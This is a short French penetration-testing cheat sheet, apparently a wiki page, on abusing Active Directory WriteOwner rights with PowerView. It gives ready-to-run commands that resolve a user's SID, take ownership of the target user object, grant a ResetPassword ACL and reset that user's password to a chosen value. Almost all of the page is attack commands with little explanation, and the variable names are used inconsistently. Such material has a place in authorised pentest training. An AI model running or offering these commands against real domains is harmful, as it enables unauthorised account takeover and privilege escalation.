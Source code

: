 ```yaml
---
public: true # set to true to make the article publishable
---
```


```powershell
# Récupération du SID d'un utilisateur
. .\PowerView.ps1
$targetUser = "tom"
$sid = Convert-NameToSid $targetUser # Powerview
$sid = (Get-ADUser "wley").SID.Value # module Active Directory
```

## Exemples 

```powershell title="Réinitialisation du mot de passe AD via appropriation de l'objet utilisateur cible"

# Appropriation d'un utilisateur (lorsqu'on a un droit WriteOwner référencé dans Bloodhound)
Set-DomainObjectOwner -Identity $targetUser -OwnerIdentity source_user
# Ajout d'une ACL sur le compte approprié pour réinitialiser le password :
Add-DomainObjectAcl -TargetIdentity $targetUser -PrincipalIdentity source_user -Rights ResetPassword

# Réinitialisation du password
$pass = ConvertTo-SecureString "P@ssw0rd" -AsPlainText -Force
Set-DomainUserPassword -Identity Target_AD_User -Password $pass
```

```
#
```
